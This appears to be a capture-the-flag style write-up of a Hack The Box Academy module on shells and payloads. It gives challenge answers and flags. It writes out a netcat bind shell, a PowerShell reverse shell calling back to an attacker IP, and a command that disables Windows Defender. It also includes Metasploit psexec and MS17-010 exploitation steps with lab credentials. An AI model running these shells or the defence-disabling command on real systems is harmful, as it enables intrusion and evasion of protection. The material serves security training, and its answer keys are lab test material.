


# HTB-Shells_and_Payloads

## Table of Contents
1. [Shell Basics](#shell-basics)
    1. [Anatomy of a Shell](#anatomy-of-a-shell)
    2. [Bind Shells](#bind-shells)
    3. [Reverse Shells](#reverse-shells)
2. [Windows Shell](#windows-shells)

## Shell Basics
### Anatomy of a Shell
#### Challenges
1. Which two shell languages did we experiment with in this section? (Format: shellname&shellname)

    The answer is `bash&powershell`.

2. In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer

    We just need to type `$PSversiontable`. The answer is `Core`.

### Bind Shells
#### Payload
1. Binding a Bash shell to the TCP session
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
#### Challenges
1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

    The answer is `443`.

2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

    First we need ssh to the target. Then we use this payload.
    ```bash
    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.180.140 7777 > /tmp/f
    ```

    After that, from our client, we can connect to that port using nc.

    ```bash
    nc -nv 10.129.180.140 7777 
    ```

    From there we can read the flag. The answer is `B1nD_Shells_r_cool`.

### Reverse Shells
#### Tools
1. [Reverse Shell CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
2. Windows Reverse Shell Common Payload
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Challenges
1. When establishing a reverse shell session with a target, will the target act as a client or server?

    The answer is `client`.

2. Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

    In the our terminal, we open netcat first.
    ```bash
    sudo nc -lvnp 443
    ```

    Then we need to rdp to the target. After that we disable the Windows Defender antivirus by run this payload on the powershell admin previllege.

    ```powershell
    Set-MpPreference -DisableRealtimeMonitoring $true
    ```

    And then we use this payload into cmd.

    ```cmd
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.234',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```

    After that we can type `hostname` in the our terminal. The answer is `Shells-Win10`.

## Payloads
### Tools
1. Metasploit
### Challenges
1. What command language interpreter is used to establish a system shell session with the target?

    The answer is `powerhsell`.

2. Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)

    To solve this, firs we enumerate using nmap.

    ```bash
    nmap -sV -sC -Pn 10.129.201.160
    ```

    We can see it have samba service running.

    

    Then we use metapsloit.

    ```bash
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set RHOSTS 10.129.201.160
    RHOSTS => 10.129.201.160
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SHARE ADMIN$
    SHARE => ADMIN$
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SMBPass HTB_@cademy_stdnt!
    SMBPass => HTB_@cademy_stdnt!
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SMBUser htb-student
    SMBUser => htb-student
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set LHOST 10.10.15.234
    LHOST => 10.10.15.234
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> exploit
    ```

    After we on Meterpreter session, we type `shell`. We can explore from there. The answer is `staffsalaries.txt`.

## Windows Shells
### Tools
1. MSFVenom & Metasploit-Framework	
2. [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
3. [Mythic C2 Framework](https://github.com/its-a-feature/Mythic)
4. [Nishang](https://github.com/samratashok/nishang)
5. [Darkarmour](https://github.com/bats3c/darkarmour)

### Challenges
1. What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')

    The answer is `.bat`.

2. What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx)

    We can find the answer on the module. The answer is `MS17-010`.

3. Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\

    First we can enumerate using metasploit with `auxiliary/scanner/smb/smb_ms17_010`. Based on the result, we can see its vuln to `MS17-010`. Then we use module `exploit/windows/smb/ms17_010_psexec`. We need to set the RHOSTS and LHOST. After run that, we get the meterpreter session, just type `shell` to get the shell. We can get the flag after that. The answer is `EB-Still-W0rk$`.

## Unix Shells
### Challenges
1. What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce?

    We can find this answer when we execute the modules.
    
    

    The answer is `php`.

2. Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.

    We can use module `rconfig_vendors_auth_file_upload_rce`. Then set the RHOSTS and LHOST. After that we can get the answer from there. The answer is `edgerouter-isp`.